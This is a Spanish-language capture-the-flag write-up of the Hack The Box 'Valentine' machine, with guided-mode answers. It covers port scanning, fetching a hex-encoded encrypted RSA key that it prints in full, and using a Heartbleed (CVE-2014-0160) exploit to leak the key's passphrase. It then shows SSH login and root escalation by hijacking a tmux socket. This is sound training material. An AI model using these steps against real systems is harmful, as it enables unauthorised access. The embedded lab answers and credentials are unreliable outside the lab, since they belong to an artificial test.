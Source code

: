 ```yaml
---
title: Writeup valentine - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - valentine
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina valentine en Hack The Box.
keywords:
  - writeup valentine
  - hack the box valentine
  - resolución máquina valentine
  - valentine hack the box
  - htb valentine
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Valentine)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=Pg7l8bmf2-Q)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=ZbJH7vUH_R0)

---

#easy #linux #nmap #ping #tmux #tratamientotty #xxd #nvim #whatweb #wappalyzer #gobuster #CVE-2014-0160 #hearthbleed #base64

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en el host remoto?
	3

2)¿Qué bandera se utiliza con nmap para ejecutar sus scripts de detección de vulnerabilidades (con la categoría «vuln») en el objetivo?
	--script vuln

3)¿Cuál es el ID CVE 2014 de una vulnerabilidad de divulgación de información a la que es vulnerable el servicio del puerto 443?
	CVE-2014-0160

4)¿Qué contraseñas pueden filtrarse utilizando HeartBleed (CVE-2014-0160)?
	heartbleedbelievethehype

5)¿Cuál es la ruta relativa de una carpeta en el sitio web que contiene dos archivos interesantes, incluido note.txt?
	/dev

6)¿Cuál es el nombre del archivo de la clave RSA que se encuentra en el sitio web?
	hype_key

*La pregunta anterior era de la flag user.txt*
8)¿Cómo se llama el software de multiplexación de terminales que el usuario hype ha ejecutado anteriormente?
	tmux

9)¿Cuál es la ruta completa al archivo socket utilizado por la sesión tmux?
	/.devs/dev_sess

10)¿Con qué usuario se ejecuta esa sesión de tmux?
	root

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.79
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.79 -oG allports
extractPorts allports
nmap -sCV -p22,80,443 10.10.10.79 -oN target
```

![[Valentine1.png]]
![[Valentine2.png]]
![[Valentine3.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22`[[ssh]]
	`80` HTTP
	`443` HTTPS

-------
# [[Whatweb-wappalyzer]]


### Web por el puerto 80

![[Valentine9.png]]

```shell
whatweb http://10.10.10.79/
```

![[Valentine6.png]]

![[Valentine5.png]]

No nos da ninguna informacion relevante


### Web por el puerto 443

```shell
whatweb http://10.10.10.79:443/
```

![[Valentine16.png]]

![[Valentine17.png]]
![[Valentine18.png]]

No nos da ninguna información relevante

---
# [[Gobuster]]

```
gobuster dir -u http://10.10.10.79 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 64
```

![[Valentine4.png]]
Nos da el directorio http://10.10.10.79/dev


![[Valentine7.png]]
Entramos al *hype_key*
http://10.10.10.79/dev/hype_key

![[Valentine8.png]]

Vamos a copiar todo y lo vamos a meter dentro de un archivo que vamos a llamar key.txt
Con [[nvim]] vamos a crear el archivo usando el comando `nvim key.txt`

```txt
2d 2d 2d 2d 2d 42 45 47 49 4e 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d 0d 0a 50 72 6f 63 2d 54 79 70 65 3a 20 34 2c 45 4e 43 52 59 50 54 45 44 0d 0a 44 45 4b 2d 49 6e 66 6f 3a 20 41 45 53 2d 31 32 38 2d 43 42 43 2c 41 45 42 38 38 43 31 34 30 46 36 39 42 46 32 30 37 34 37 38 38 44 45 32 34 41 45 34 38 44 34 36 0d 0a 0d 0a 44 62 50 72 4f 37 38 6b 65 67 4e 75 6b 31 44 41 71 6c 41 4e 35 6a 62 6a 58 76 30 50 50 73 6f 67 33 6a 64 62 4d 46 53 38 69 45 39 70 33 55 4f 4c 30 6c 46 30 78 66 37 50 7a 6d 72 6b 44 61 38 52 0d 0a 35 79 2f 62 34 36 2b 39 6e 45 70 43 4d 66 54 50 68 4e 75 4a 52 63 57 32 55 32 67 4a 63 4f 46 48 2b 39 52 4a 44 42 43 35 55 4a 4d 55 53 31 2f 67 6a 42 2f 37 2f 4d 79 30 30 4d 77 78 2b 61 49 36 0d 0a 30 45 49 30 53 62 4f 59 55 41 56 31 57 34 45 56 37 6d 39 36 51 73 5a 6a 72 77 4a 76 6e 6a 56 61 66 6d 36 56 73 4b 61 54 50 42 48 70 75 67 63 41 53 76 4d 71 7a 37 36 57 36 61 62 52 5a 65 58 69 0d 0a 45 62 77 36 36 68 6a 46 6d 41 75 34 41 7a 71 63 4d 2f 6b 69 67 4e 52 46 50 59 75 4e 69 58 72 58 73 31 77 2f 64 65 4c 43 71 43 4a 2b 45 61 31 54 38 7a 6c 61 73 36 66 63 6d 68 4d 38 41 2b 38 50 0d 0a 4f 58 42 4b 4e 65 36 6c 31 37 68 4b 61 54 36 77 46 6e 70 35 65 58 4f 61 55 49 48 76 48 6e 76 4f 36 53 63 48 56 57 52 72 5a 37 30 66 63 70 63 70 69 6d 4c 31 77 31 33 54 67 64 64 32 41 69 47 64 0d 0a 70 48 4c 4a 70 59 55 49 49 35 50 75 4f 36 78 2b 4c 53 38 6e 31 72 2f 47 57 4d 71 53 4f 45 69 6d 4e 52 44 31 6a 2f 35 39 2f 34 75 33 52 4f 72 54 43 4b 65 6f 39 44 73 54 52 71 73 32 6b 31 53 48 0d 0a 51 64 57 77 46 77 61 58 62 59 79 54 31 75 78 41 4d 53 6c 35 48 71 39 4f 44 35 48 4a 38 47 30 52 36 4a 49 35 52 76 43 4e 55 51 6a 77 78 30 46 49 54 6a 6a 4d 6a 6e 4c 49 70 78 6a 76 66 71 2b 45 0d 0a 70 30 67 44 30 55 63 79 6c 4b 6d 36 72 43 5a 71 61 63 77 6e 53 64 64 48 57 38 57 33 4c 78 4a 6d 43 78 64 78 57 35 6c 74 35 64 50 6a 41 6b 42 59 52 55 6e 6c 39 31 45 53 43 69 44 34 5a 2b 75 43 0d 0a 4f 6c 36 6a 4c 46 44 32 6b 61 4f 4c 66 75 79 65 65 30 66 59 43 62 37 47 54 71 4f 65 37 45 6d 4d 42 33 66 47 49 77 53 64 57 38 4f 43 38 4e 57 54 6b 77 70 6a 63 30 45 4c 62 6c 55 61 36 75 6c 4f 0d 0a 74 39 67 72 53 6f 73 52 54 43 73 5a 64 31 34 4f 50 74 73 34 62 4c 73 70 4b 78 4d 4d 4f 73 67 6e 4b 6c 6f 58 76 6e 6c 50 4f 53 77 53 70 57 79 39 57 70 36 79 38 58 58 38 2b 46 34 30 72 78 6c 35 0d 0a 58 71 68 44 55 42 68 79 6b 31 43 33 59 50 4f 69 44 75 50 4f 6e 4d 58 61 49 70 65 31 64 67 62 30 4e 64 44 31 4d 39 5a 51 53 4e 55 4c 77 31 44 48 43 47 50 50 34 4a 53 53 78 58 37 42 57 64 44 4b 0d 0a 61 41 6e 57 4a 76 46 67 6c 41 34 6f 46 42 42 56 41 38 75 41 50 4d 66 56 32 58 46 51 6e 6a 77 55 54 35 62 50 4c 43 36 35 74 46 73 74 6f 52 74 54 5a 31 75 53 72 75 61 69 32 37 6b 78 54 6e 4c 51 0d 0a 2b 77 51 38 37 6c 4d 61 64 64 73 31 47 51 4e 65 47 73 4b 53 66 38 52 2f 72 73 52 4b 65 65 4b 63 69 6c 44 65 50 43 6a 65 61 4c 71 74 71 78 6e 68 4e 6f 46 74 67 30 4d 78 74 36 72 32 67 62 31 45 0d 0a 41 6c 6f 51 36 6a 67 35 54 62 6a 35 4a 37 71 75 59 58 5a 50 79 6c 42 6c 6a 4e 70 39 47 56 70 69 6e 50 63 33 4b 70 48 74 74 76 67 62 70 74 66 69 57 45 45 73 5a 59 6e 35 79 5a 50 68 55 72 39 51 0d 0a 72 30 38 70 6b 4f 78 41 72 58 45 32 64 6a 37 65 58 2b 62 71 36 35 36 33 35 4f 4a 36 54 71 48 62 41 6c 54 51 31 52 73 39 50 75 6c 72 53 37 4b 34 53 4c 58 37 6e 59 38 39 2f 52 5a 35 6f 53 51 65 0d 0a 32 56 57 52 79 54 5a 31 46 66 6e 67 4a 53 73 76 39 2b 4d 66 76 7a 33 34 31 6c 62 7a 4f 49 57 6d 6b 37 57 66 45 63 57 63 48 63 31 36 6e 39 56 30 49 62 53 4e 41 4c 6e 6a 54 68 76 45 63 50 6b 79 0d 0a 65 31 42 73 66 53 62 73 66 39 46 67 75 55 5a 6b 67 48 41 6e 6e 66 52 4b 6b 47 56 47 31 4f 56 79 75 77 63 2f 4c 56 6a 6d 62 68 5a 7a 4b 77 4c 68 61 5a 52 4e 64 38 48 45 4d 38 36 66 4e 6f 6a 50 0d 0a 30 39 6e 56 6a 54 61 59 74 57 55 58 6b 30 53 69 31 57 30 32 77 62 75 31 4e 7a 4c 2b 31 54 67 39 49 70 4e 79 49 53 46 43 46 59 6a 53 71 69 79 47 2b 57 55 37 49 77 4b 33 59 55 35 6b 70 33 43 43 0d 0a 64 59 53 63 7a 36 33 51 32 70 51 61 66 78 66 53 62 75 76 34 43 4d 6e 4e 70 64 69 72 56 4b 45 6f 35 6e 52 52 66 4b 2f 69 61 4c 33 58 31 52 33 44 78 56 38 65 53 59 46 4b 46 4c 36 70 71 70 75 58 0d 0a 63 59 35 59 5a 4a 47 41 70 2b 4a 78 73 6e 49 51 39 43 46 79 78 49 74 39 32 66 72 58 7a 6e 73 6a 68 6c 59 61 38 73 76 62 56 4e 4e 66 6b 2f 39 66 79 58 36 6f 70 32 34 72 4c 32 44 79 45 53 70 59 0d 0a 70 6e 73 75 6b 42 43 46 42 6b 5a 48 57 4e 4e 79 65 4e 37 62 35 47 68 54 56 43 6f 64 48 68 7a 48 56 46 65 68 54 75 42 72 70 2b 56 75 50 71 61 71 44 76 4d 43 56 65 31 44 5a 43 62 34 4d 6a 41 6a 0d 0a 4d 73 6c 66 2b 39 78 4b 2b 54 58 45 4c 33 69 63 6d 49 4f 42 52 64 50 79 77 36 65 2f 4a 6c 51 6c 56 52 6c 6d 53 68 46 70 49 38 65 62 2f 38 56 73 54 79 4a 53 65 2b 62 38 35 33 7a 75 56 32 71 4c 0d 0a 73 75 4c 61 42 4d 78 59 4b 6d 33 2b 7a 45 44 49 44 76 65 4b 50 4e 61 61 57 5a 67 45 63 71 78 79 6c 43 43 2f 77 55 79 55 58 6c 4d 4a 35 30 4e 77 36 4a 4e 56 4d 4d 38 4c 65 43 69 69 33 4f 45 57 0d 0a 6c 30 6c 6e 39 4c 31 62 2f 4e 58 70 48 6a 47 61 38 57 48 48 54 6a 6f 49 69 6c 42 35 71 4e 55 79 79 77 53 65 54 42 46 32 61 77 52 6c 58 48 39 42 72 6b 5a 47 34 46 63 34 67 64 6d 57 2f 49 7a 54 0d 0a 52 55 67 5a 6b 62 4d 51 5a 4e 49 49 66 7a 6a 31 51 75 69 6c 52 56 42 6d 2f 46 37 36 59 2f 59 4d 72 6d 6e 4d 39 6b 2f 31 78 53 47 49 73 6b 77 43 55 51 2b 39 35 43 47 48 4a 45 38 4d 6b 68 44 33 0d 0a 2d 2d 2d 2d 2d 45 4e 44 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d
```

Ahora con [[xxd]] vamos a usar el comando ``xxd -r -p key.txt > id_rsa`` para pasar de hexadecimal a binario y luego con [[chmod]] usamos el comando `chmod 600 id_rsa` para darle permiso de ejecucion

  ![[Valentine19.png]]

---
## [[NMAP Scripts]]

Como es una version vieja de apache, seguramente el openssl es una version vieja y por eso enumeramos por hearthbleed
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
Es vulnerable a hearthbleed

--------
# [[searchsploit]]

Buscamos algun exploit para [[CVE-2014-0160]] con el comando searchsploit ``searchsploit heartbleed``, luego encontramos este exploit que nos interesa y lo descargamos con `searchsploit -m multiple/remote/32764.py`
   ![[Valentine11.png]]
Ahora lo vamos a ejecutar con `python2.7 32764.py 10.10.10.79 -p 443`

   ![[Valentine12.png]]
Nos da este codigo que al parecer esta en base 64 *aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg\==*

Ahora con [[echo]] y [[base64]] vamos a usar el comando `echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d` para decodificarlo
   ![[Valentine13.png]]
Y vemos que obtenemos como resultado *heartbleedbelievethehype*

---
# Conexion por [[ssh]]

```bash
ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -o HostKeyAlgorithms=+ssh-rsa -i id_rsa hype@10.10.10.79
```
Cuando nos pida el passphrase vamos a poner *heartbleedbelievethehype*

![[Valentine14.png]]

---
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios [[Binario especifico - TMUX]]

Con [[ps faux y ps -eo]] usamos el comando `ps faux` y vemos el binario de *tmux*
   ![[Valentine15.png]]

[Articulo que explica la vulnerabilidad](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0)

Ahora vamos a usar el comando `tmux -S /.devs/dev_sess` para hacernos root, y listo ya podemos catear las flags

![[Valentine20.png]]

----------
# Notas

SSl es el protocolo de cifrado de https


---

# 📚 Créditos

- Writeup oficial de HTB  
- [Writeup de adrijmnz](https://github.com/adrijmnz/WriteUps/blob/main/HackTheBox/Easy/Valentine/Valentine.md)
